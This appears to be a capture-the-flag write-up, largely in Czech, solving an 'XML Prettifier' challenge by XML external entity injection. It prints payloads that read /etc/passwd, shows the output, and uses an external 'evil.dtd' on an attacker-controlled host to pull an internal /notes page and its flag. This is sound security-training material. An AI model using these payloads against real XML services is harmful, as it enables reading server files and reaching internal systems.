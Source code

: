 # XML Prettifier

## Zadání

```
Hi, packet inspector,

some former employe of Mysterious Delivery Ltd. has created prettifier for XML code. It is polite to provide information to the AI in nicely formatted XML, isn't it? Rumors say that the employee also left some crucial information somewhere on the web.

Find the crucial information on webpage http://prettifier.mysterious-delivery.tcc:50000 .

May the Packet be with you!
```

## Řešení

Stránka nabízí "zkrášlení" XML kódu - mohlo by to být zranitelnost XXE (Xml External Entity - https://depthsecurity.com/blog/exploitation-xml-external-entity-xxe-injection)

### 1. Vyzkouším zda lze extrahovat lokální soubory:

```
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<a>&xxe;</a>
```

Výstup:

```
<a>root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
</a>
```

### 2. Pokus o extrakci `/notes`

Flag je uložen na stránce `/notes` nedostupné zvenku. Zkusíme tedy extrahovat pomocí http://127.0.0.1

```
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "http://127.0.0.1:50000/notes" >]>
<a>&xxe;</a>
```

Toto bohužel ohlásí chybu (`<string>:1:1:FATAL:PARSER:ERR_DOCUMENT_EMPTY: Start tag expected, '<' not found`), stránka totiž obsahuje nevalidní XML.
Pro extrakci tak musíme použít CDATA a externí DTD soubor, který umístíme na náš server ve VPN:

**evil.dtd**

```
<!ENTITY % file SYSTEM "http://localhost:50000/notes">
<!ENTITY % start "<![CDATA[">
<!ENTITY % end "]]>">
<!ENTITY % all "<!ENTITY fileContents '%start;%file;%end;'>">
```

**Vstup**

```
<!DOCTYPE data [
  <!ENTITY % dtd SYSTEM
  "http://10.200.0.11/evil.dtd">
  %dtd;
  %all;
]>
<data>&fileContents;</data>
```

**Výstup**

```
<data>

&lt;!doctype html&gt;
&lt;html lang="en"&gt;
  
&lt;head&gt;
	&lt;meta charset="utf-8"&gt;
	&lt;meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no"&gt;
	&lt;link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/bootstrap@4.6.1/dist/css/bootstrap.min.css" integrity="sha256-DF7Zhf293AJxJNTmh5zhoYYIMs2oXitRfBjY+9L//AY=" crossorigin="anonymous"&gt;
	&lt;title&gt;Notes&lt;/title&gt;

	&lt;link rel="stylesheet" href="/static/style.css"&gt;
&lt;/head&gt;

&lt;body&gt;
	&lt;nav class="navbar navbar-expand navbar-dark bg-dark fixed-top py-0"&gt;
		&lt;div class="container"&gt;
			&lt;a class="navbar-brand" href="/"&gt;Prettier&lt;/a&gt;
			&lt;button class="navbar-toggler" type="button" data-toggle="collapse" data-target="#navbarResponsive" aria-controls="navbarResponsive" aria-expanded="false" aria-label="Toggle navigation"&gt;&lt;span class="navbar-toggler-icon"&gt;&lt;/span&gt;&lt;/button&gt;
			&lt;div class="collapse navbar-collapse" id="navbarResponsive"&gt;
				&lt;ul class="navbar-nav ml-auto"&gt;
					&lt;li class="nav-item"&gt;&lt;a class="nav-link" href="/notes"&gt;Notes&lt;/a&gt;&lt;/li&gt;
				&lt;/ul&gt;
			&lt;/div&gt;
		&lt;/div&gt;
	&lt;/nav&gt;

        &lt;div class="container"&gt;
		&lt;div&gt;
		
		
		
		&lt;/div&gt;

		
&lt;h1&gt;Notes&lt;/h1&gt;
&lt;span id="flag"&gt;FLAG{GG53-5U3w-VT8F-qB31}&lt;/span&gt;

        &lt;/div&gt;

	&lt;script src="https://cdn.jsdelivr.net/npm/jquery@3.6.0/dist/jquery.min.js" integrity="sha256-/xUj+3OJU5yExlq6GSYGSHk7tPXikynS7ogEvDej/m4=" crossorigin="anonymous"&gt;&lt;/script&gt;
	&lt;script src="https://cdn.jsdelivr.net/npm/bootstrap@4.6.1/dist/js/bootstrap.min.js" integrity="sha256-SyTu6CwrfOhaznYZPoolVw2rxoY7lKYKQvqbtqN93HI=" crossorigin="anonymous"&gt;&lt;/script&gt;
&lt;/body&gt;

&lt;/html&gt;</data>
```

## Vlajka

```
FLAG{GG53-5U3w-VT8F-qB31}
```